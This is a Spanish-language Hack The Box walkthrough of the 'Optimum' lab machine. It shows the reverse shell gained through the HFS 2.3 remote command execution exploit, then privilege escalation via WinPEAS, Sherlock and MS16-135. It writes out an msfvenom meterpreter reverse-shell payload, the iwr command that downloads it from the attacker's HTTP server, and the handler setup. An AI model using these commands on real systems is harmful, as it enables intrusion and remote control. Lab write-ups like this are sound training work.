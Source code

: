 ```yaml
---
title:  "Optimum - Hack The Box"
classes: wide
excerpt: "Optimum es una máquina sencilla basada en vulnerar una versión obsoleta de Windows. Para obtener la shell inicial hemos vulnerado la versión 2.3 de HTTP File Server. Desde aqui hemos ejecutado herramientas automatizadas adaptandonos al enotno del sistema operativo y buscando soluciones para poder escalar privilegios en esta versión concreta."
---
```


![styled-image](https://haoxgit.github.io/haox/assets/images/optimum/Optimum.png){: .align-center style="width: 75%;"}

Optimum es una máquina sencilla basada en vulnerar una versión obsoleta de Windows. Para obtener la shell inicial hemos vulnerado la versión 2.3 de HTTP File Server. Desde aqui hemos ejecutado herramientas automatizadas adaptandonos al enotno del sistema operativo y buscando soluciones para poder escalar privilegios en esta versión concreta.

**Portscan**
```
sudo nmap -sC -sV -p- 10.10.10.8   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-16 11:57 CEST
Nmap scan report for 10.10.10.8
Host is up (0.054s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.59 seconds
```

<br>
**Web**

Accediendo al sitio web confirmamos la presencia del servicio HTTPFileServer que habíamos visto en el escaneo nmap.

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/web.png){: .align-center}

Hemos utilizado searchsploit para detectar vulnerabilidades relacionadas con la versión actual.
```
┌──(kali㉿kali)-[~/htb/optimum]
└─$ searchsploit httpfileserver
----------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
----------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)       | windows/webapps/49125.py
----------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

<br>
**Shell de Usuario**

Adicionalmente podemos realizar una busqueda en google tal como "HttpFileServer exploit" y nos apareceran otros tantos como por ejemplo <a href="https://www.exploit-db.com/exploits/49584">CVE-2014-6287</a>

Para poder ejecutar el script debemos de modificar el valor lhost y lport por nuestra IP local y el puerto a la escucha que vamos a usar para recibir la shell. Los valores rhost y rport corresponderan a la máquina víctima, en este caso:
```
lhost = "10.10.14.10"
lport = 4444
rhost = "10.10.10.8"
rport = 80
```

Para ejecutar el exploit simplemente realizaremos:
```
python3 hfs.py
```

En nuestro netcat a la escucha deberíamos obtener una shell.
```
┌──(kali㉿kali)-[~/htb/optimum]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49163

PS C:\Users\kostas\Desktop> whoami
optimum\kostas
```

<br>
**Escalada de privilegios**

Para comenzar a enumerar posibles vectores de escalada de privilegios hemos ejecutado la herramienta <a href="https://github.com/peass-ng/PEASS-ng">WinPEAS</a>. Tras ejecutar la herramienta apreciamos información interesante como por ejemplo la credencial en texto plano del usuario kostas.

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/user.png){: .align-center}

Algo de lo que deberíamos de darnos cuenta es de que la herramienta Watson no muestra ninguna salida al ejecutar WinPEAS.

Esto se debe a que la versión .NET del host no permite el uso de Watson (se necesita como mínimo la versión 4.5). Para comprobarlo podemos consultar los directorios de la siguiente ruta:

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/net.png){: .align-center}

Lo que debemos de hacer en casos como este es recurrir a su predecesor <a href="https://github.com/rasta-mouse/Sherlock">Sherlock</a>

En mi caso me econtre un error ya que la shell que nos ha propocionado el exploit de HttpFileServer no es lo suficientemente estable. Como bypass de este problema podemos generar una shell meterpreter desde nuestra máquina atacante.
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.14.10 LPORT=443 -f exe -o met.exe
```

Para compartir la shell podemos ejecutar un servidor http con python
```
python3 -m http.server 80
```

Aprovechando la shell PS que ya tenemos descargamos el payload del siguiente modo
```
iwr -uri http://10.10.14.10/met.exe -outfile met.exe
```

Por parte de nuestra máquina atacante a la escucha deberemos de utilizar el multi/handler de msfconsole y definir los siguientes parámetros.
```
set lhost <IP de nuestra máquina atacante>

set lport <puerto a la escucha de nuestra máquina atacante>

set payload windows/x64/meterpreter_reverse_https
```

Tras esto obtendremos una shell estable desde la cual podremos ejecutar la herramienta Sherlock. 

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/Sherlock.png){: .align-center}

Para explotar las vulnerabilidades encontradas he decidido utilizar el exploit MS16-135.
![image-left](https://haoxgit.github.io/haox/assets/images/optimum/exploit.png){: .align-center}

